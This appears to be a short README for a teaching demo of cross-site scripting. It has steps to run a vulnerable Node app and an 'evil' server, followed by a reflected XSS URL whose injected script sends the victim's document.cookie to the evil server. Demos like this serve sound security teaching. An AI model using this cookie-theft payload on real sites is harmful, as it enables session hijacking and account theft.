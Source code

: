 # XSS Demo

Start the real server:

```
npm i
node app.js
```

Start the evil server in a new terminal session:

```
cd evilserver
node evil.js
```

Open the browser and send a malicious request:

```
http://localhost:3000?txid=TX999<script>new Image().src=`http://localhost:3666/evil?cookie=${document.cookie}`</script>
```
